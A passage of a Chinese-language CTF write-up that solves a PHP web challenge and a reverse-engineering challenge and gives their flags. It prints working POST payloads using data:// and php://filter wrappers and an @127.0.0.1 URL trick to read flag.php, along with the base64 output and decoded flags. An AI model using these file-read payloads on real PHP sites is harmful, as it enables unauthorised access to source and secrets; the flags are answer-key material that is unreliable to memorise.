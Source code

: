 [+] 在 challenge 尾部加上 @127.0.0.1，这样 file_get_contents 获取的内容就是当前页面的内容，正好包含了目标字符串。

:::

最后提示到 flag 在 flag.php 中，使用 php://filter 伪协议读出 flag 即可。

:::info
POST: gift=php://filter/read=convert.base64-encode/resource=flag.php

:::

:::info
POST: pen=data://plain/text,Aura&challenge=[http://jasmineaura.github.io](http://jasmineaura.github.io)@127.0.0.1&gift=php://filter/read=convert.base64-encode/resource=flag.php

:::

:::info
PD9waHAgLy8gZmxhZ3tlNDBiNzEyNy1mMjU4LTQyMGQtOTc1MC0zZGM5NGFjYTllZWJ9ICBBdXJhIOmFseacieaLv+WIsOS4gOihgOWQl++8nwo=  

:::

Base64 Decode 得到 flag。

:::info
flag{e40b7127-f258-420d-9750-3dc94aca9eeb}

:::



## Reverse
### You are good at IDA
拖入 DIE，无壳，64位，丢入 IDA。

![](../../../images/f62283c2837baee98a638475ab6c42e1.png)

main 函数中发现 flag 第一部分。

:::info
Y0u_4Re_

:::

![](../../../images/76443327d218f2deb2b2cf0f96aebdd4.png)

F12 查看字符串，发现第二部分，并且得到提示，最后一部分在函数 Interesting 中。

:::info
900d_47_

:::

![](../../../images/c613bbb19952034c261f8a54b280b824.png)

进入该函数，发现最后一部分。

:::info
BaseCTF{Y0u_4Re_900d_47_id4}

